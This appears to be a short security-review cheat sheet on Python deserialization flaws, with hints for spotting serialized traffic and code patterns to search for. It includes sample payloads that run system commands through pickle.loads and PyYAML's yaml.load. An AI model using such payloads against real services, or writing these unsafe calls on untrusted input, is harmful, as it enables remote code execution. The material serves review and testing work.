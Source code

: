 # Python Deserialize

## BlackBox

If the traffic data contains the symbol dot (`.`) at the end, it's very likely that the data was sent in serialization.

## WhiteBox

The following API in Python will be vulnerable to serialization attack. Search code for the pattern below.

The uses of `pickle`/`c_pickle`/`_pickle` with load/loads:

```python
import pickle

data = """ cos.system(S'dir')tR. """
pickle.loads(data)
```

Uses of PyYAML with load:

```python
import yaml

document = "!!python/object/apply:os.system ['ipconfig']"
print(yaml.load(document))
```

Uses of jsonpickle with encode or store methods.

---
## References

### Christopher Frohoff

- [Christopher Frohoff: OWASP AppSecCali 2015 - Marshaling Pickles](https://www.slideshare.net/slideshow/appseccali-2015-marshalling-pickles/44009258)